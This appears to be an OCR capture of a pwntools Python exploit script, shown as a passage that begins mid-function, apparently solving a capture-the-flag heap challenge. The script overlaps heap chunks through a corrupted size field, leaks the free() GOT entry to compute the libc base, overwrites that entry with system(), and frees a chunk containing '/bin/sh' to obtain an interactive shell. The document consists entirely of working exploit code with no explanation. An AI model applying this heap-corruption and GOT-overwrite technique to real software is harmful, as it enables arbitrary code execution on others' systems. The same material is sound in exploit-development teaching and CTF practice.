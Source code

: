```python  
    r.recvuntil(":")  
    r.sendline(str(size))  
    r.recvuntil(":")  
    r.sendline(content)  
  
def editHeap(idx, content):  
    r.recvuntil(":")  
    r.sendline("2")  
    r.recvuntil(":")  
    r.sendline(str(idx))  
    r.recvuntil(":")  
    r.sendline(content)  
  
def deleteHeap(idx):  
    r.recvuntil(":")  
    r.sendline("4")  
    r.recvuntil(":")  
    r.sendline(str(idx))  
  
def showHeap(idx):  
    r.recvuntil(":")  
    r.sendline("3")  
    r.recvuntil(":")  
    r.sendline(str(idx))  
  
createHeap(0x18, "aaa")  
createHeap(0x10, "bbb")  
  
editHeap(0, "/bin/sh\x00" + "a"*0x10 + p64(0x41))  
deleteHeap(1)  
  
free_got = 0x602018  
off_free = 0x3e3ec0  
off_system = 0x453a0  
createHeap(0x30, "a"*24 + p64(21) + p64(0x30) + p64(free_got))  
showHeap(1)  
  
r.recvuntil("Content : ")  
free = u64(r.recv(6).ljust(8, "\x00"))  
success("free address " + hex(free))  
  
libc_base = free - libc.symbols["free"]  
success("libc_base: " + hex(libc_base))  
  
system = libc_base + libc.symbols["system"]  
success("system: " + hex(system))  
editHeap(1, p64(system))  
  
deleteHeap(0)  
  
r.interactive()  
```  
  